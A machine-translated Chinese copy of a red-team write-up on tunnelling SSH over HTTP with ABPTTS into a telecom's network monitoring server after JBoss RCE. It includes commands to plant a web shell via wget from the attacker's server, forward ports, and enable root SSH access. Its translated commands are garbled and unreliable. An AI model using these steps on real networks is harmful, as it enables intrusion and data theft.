







# 我如何侵入电信网络—第 2 部分(玩隧道:TCP 隧道)

> 原文：<https://infosecwriteups.com/how-i-hacked-into-a-telecom-network-part-2-playing-with-tunnels-tcp-tunneling-b4cef2837938?source=collection_archive---------2----------------------->

> *TLDR；一家电信公司的红队项目。立足于公司的网络监控系统(NMS)。通过 HTTP 隧道传输 SSH 的反向外壳问题已排序。当通过 HTTP 获得 SSH 时变成了完全忍者。在网络内部代理以获取内部网络扫描。使用 SS7 应用程序访问 CDRs 和 VLR。*

## **回顾:**一家电信公司的红队项目。找到了感兴趣的子域，在那个子域上做了全端口扫描，找到了端口 12000/tcp，14000/tcp，14100/tcp 找到了 JBoss 的一个运行实例(我真幸运！)，为 RCE 开发了 JBoss，现在遇到了反向外壳的问题。

有关详细信息，您可以查看以下链接:
[***第一部分—获取 RCE***](https://medium.com/bugbountywriteup/how-i-hacked-into-a-telecom-network-part-1-getting-the-rce-167c2bb320e6)[***第三部分—玩隧道:隐形 SSH &动态 SSH 隧道***](https://medium.com/bugbountywriteup/how-i-hacked-into-a-telecom-network-part-3-playing-with-tunnels-stealthy-ssh-dynamic-tunnels-5ac26557d0eb)[***第四部分—获取 CDRs、SS7 应用&***](https://medium.com/@TheCyb3rAlpha/how-i-hacked-into-a-telecom-network-part-4-getting-access-to-cdrs-ss7-applications-vlrs-9a8cf95e2648)

现在，当我试图获得一个稳定的反向外壳时，我失败了。我想到的另一个想法是获得一个 bind shell(为了稳定起见，在 HTTP 上获得 SSH)，而不是在 HTTP 上获得 reverse(HTTP 上的 TCP 隧道)。但是我到底在这里得到了什么？

> **HTTP 上的 TCP 隧道(出于 TCP 稳定性目的+秘密的 SSH 连接(通过创建的 TCP 隧道)+ SOCKS 隧道(动态 SSH 隧道)，用于使用 Metasploit 进行内部网络扫描=利用内部网络服务通过这些递归隧道来导出数据。**

看起来很复杂？让我们把它分成几个步骤:

1.  *首先，我在我的服务器和 NMS 服务器之间创建了一个桥，这样它应该支持不同协议的通信，而不仅仅是 HTTP/HTTPS(目前是>L2)[****HTTP 上的 TCP 隧道*** *]*
2.  *一旦创建了桥(****TCP Tunnel over HTTP****)，我就配置并实现了从我的服务器(****2222/TCP****)到 NMS 服务器(****22/TCP****)的 SSH 端口转发，这样我就可以通过 SSH over HTTP 连接到 NMS 服务器。(准确的说是 SSH over TCP over HTTP)****注:NMS 服务器上的 SSH 服务运行于 127.0.0.1***
3.  *然后，我将 NMS SSH 服务器配置为* ***允许 root 登录*** *和* ***生成 SSH 私钥*** *(将我的公钥复制到 authorized_hosts 文件)以便通过 SSH 访问 NMS 服务器。*
4.  *我使用私钥检查了到 NMS 的 SSH 连接，当它工作时，我创建了一个* ***动态 SSH 隧道*** *(SOCKS)来代理 SSH 隧道上的 Metasploit(准确地说是 HTTP 上的 TCP 隧道上的 SSH 隧道上的 Metasploit)。*

我想一步一步地在博客上讲述我是如何创造隧道的，以及我玩隧道的方式。

# 隧道 101

> 一个**隧道协议**是一个[通信协议](https://en.wikipedia.org/wiki/Communications_protocol)，允许数据从一个网络移动到另一个网络。它包括允许[私有网络](https://en.wikipedia.org/wiki/Private_network)通信通过一个叫做[封装](https://en.wikipedia.org/wiki/Encapsulation_(networking))的过程在公共网络(如[互联网](https://en.wikipedia.org/wiki/Internet))上发送。因为隧道涉及[将流量数据](https://en.wikipedia.org/wiki/Encapsulation_(networking))重新打包成不同的形式，也许以[加密](https://en.wikipedia.org/wiki/Encryption)为标准，它可以**隐藏通过隧道的流量**的性质。
> 
> 隧道协议通过使用[数据包](https://en.wikipedia.org/wiki/Network_packet)([有效载荷](https://en.wikipedia.org/wiki/Payload_(computing)))的数据部分来承载实际提供服务的数据包。隧道使用分层协议模型，例如那些 [OSI](https://en.wikipedia.org/wiki/Open_Systems_Interconnection) 或 [TCP/IP](https://en.wikipedia.org/wiki/TCP/IP) 协议组，但是当使用有效载荷来承载网络通常不提供的服务时，通常会违反分层。通常，在分层模型中，传送协议在与有效载荷协议相同或更高的级别上运行。
> 
> **来源:** [**维基百科**](https://en.wikipedia.org/wiki/Tunneling_protocol)

因此，基本的想法是使用 web 服务器作为中间代理，将所有网络数据包(TCP 数据包)从 web 服务器转发到内部网络。

使用 HTTP 协议通过 web 服务器将 TCP 数据包转发到内部网络

在限制端口访问和过滤[出口流量](https://en.wikipedia.org/wiki/Egress_filtering)的情况下，TCP 隧道可以帮助您。在我的例子中，没有太多的过滤，但是，我使用这种技术来获得稳定的外壳访问。

现在，我已经在服务器上拥有了一个 RCE，并且拥有“root”权限。我很快利用这个机会使用 [**ABPTTS**](https://github.com/nccgroup/ABPTTS) 创建了一个基于 JSP 的 shell

# 通向太阳的黑色道路(ABPTTS)

正如 GitHub repo 中所解释的，

> ABPTTS 使用 Python 客户端脚本和 web 应用服务器页面/包，通过 HTTP/HTTPS 连接将 TCP 流量隧道传输到 web 应用服务器。

目前，该工具仅支持 JSP/WAR 和 ASP.NET 服务器端组件。

因此，我们的想法是使用 ABPTTS 创建一个基于 JSP 的 shell，并将其上传到 web 服务器，让该工具与 JSP shell 连接，并通过 HTTP 创建一个 TCP 隧道，从而在我的系统和服务器之间创建一个安全的 shell (SSH)。

**【jexws4.jsp】python abpttsfactory . py-o**

当使用 ABPTTS 生成 shell 时，该工具创建了一个配置文件，用于创建 HTTP/HTTPS 上的 TCP 隧道。

然后，我使用 wget 将 JSP shell 上传到服务器。**注意:jexws4.war shell 是 Jexboss 的一个包。当您通过 Jexboss 利用 JBoss 漏洞时，该工具会将自己的 WAR shell 上传到服务器。在我的例子中，我只是试图找到这个 WAR/JSP shell(jexws4.jsp)并用 ABPTTS shell** 替换它

***wget***[***http://【我的***](/[MY) ***服务器]/jexws 4 . JSP-O<jexws4.jsp shell 在 NMS 服务器上的位置>***

ABPTTS shell 上传到服务器后，我在 Jexboss 上通过执行一个随机命令来查看输出，很快就确认了这一点。为什么？现在 Jexboss shell 被 ABPTTS shell 覆盖了，无论我执行什么命令，输出总是 ABPTTS shell 打印出来的散列。

从上面的截图中可以看到，当我执行“id”命令时，我得到了一个奇怪的散列，证明 ABPTTS shell 上传成功！

现在我已经配置了一个 HTTP 上的 **TCP 隧道，接下来我想做的事情是隧道化运行在服务器上的 SSH 端口(NMS** 上的 **22/tcp)并将端口绑定到我的系统( **2222/tcp** )。为什么？这样我就可以通过 SSH 连接到 NMS。你注意到我在这里做什么了吗？**

通过 HTTP 上的 TCP 隧道进行 SSH 端口转发(尚未隧道化)

尽管我还没有在 NMS 和我自己的服务器上为 SSH 隧道配置 SSH 部分。现在，我只准备了端口转发机制，这样我就可以使用端口 2222/tcp 从我的服务器到达 NMS 上的本地端口 22/tcp

***python ABPTTS client . py-c<配置文件的位置>-u<ABPTTS shell URL>-f 127 . 0 . 0 . 1:2222/127 . 0 . 0 . 1:22***

我检查了我的连接表，以检查端口是否被正确转发。正如你在下面的截图中看到的，我的服务器的端口 2222/tcp 处于监听状态。

现在要做的下一件事是配置 SSH 服务器以连接到 NMS 并启动一个动态 SSH 隧道(SOCKS)。我将在下一篇文章 ***:*** 中讨论这个问题

[***第三部——玩隧道:隐身宋承宪&动态隧道***](https://medium.com/bugbountywriteup/how-i-hacked-into-a-telecom-network-part-3-playing-with-tunnels-stealthy-ssh-dynamic-tunnels-5ac26557d0eb)

# 推广时间！

如果你们想了解更多关于我使用的技术及其背后的基本概念，可以阅读我的书(与***@ himan Shu _ hax****)*

> ***动手红队战术***——[亚马逊](https://www.amazon.in/Hands-Penetration-Testing-Metasploit-vulnerabilities-ebook/dp/B07MT8DDBR)， [PacktPub](https://www.packtpub.com/in/networking-and-servers/hands-red-team-tactics)

> ***使用 Metasploit***—[Amazon](https://www.amazon.in/Hands-Penetration-Testing-Metasploit-vulnerabilities-ebook/dp/B07MT8DDBR)， [PacktPub](https://www.packtpub.com/in/networking-and-servers/hands-web-penetration-testing-metasploit) 进行实际操作的 Web 应用渗透测试

